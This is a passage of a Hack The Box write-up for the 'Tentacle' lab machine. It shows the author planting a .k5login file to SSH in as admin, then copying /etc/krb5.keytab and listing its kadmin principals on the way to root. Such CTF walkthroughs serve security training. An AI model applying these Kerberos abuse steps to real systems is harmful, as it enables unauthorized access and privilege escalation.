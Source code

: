 ```console
[j.nakazawa@srv01 tmp]$ rm .k5login 
[j.nakazawa@srv01 tmp]$ touch .k5login
[j.nakazawa@srv01 tmp]$ echo "j.nakazawa@REALCORP.HTB" > .k5login
[j.nakazawa@srv01 tmp]$ cp .k5login /var/log/squid
```

Now let's login using ```ssh```:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ ssh admin@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Fri Apr 16 15:09:01 2021
[admin@srv01 ~]$ 
```

And we are in admin user.

### Root

So by running again [linpas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we found [keytab](https://kb.iu.edu/d/aumh) file located on ```/etc/krb5.keytab```, We can get root by using the following commands [klist](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/klist.html), [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html), [ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html).

First, let's try to use ```klist``` to see what we have inside the keytab file:
```console
[admin@srv01 kt]$ pwd
/tmp/kt
[admin@srv01 kt]$ cp /etc/krb5.keytab .
[admin@srv01 kt]$ klist -k krb5.keytab 
Keytab name: FILE:krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
[admin@srv01 kt]$ 
```
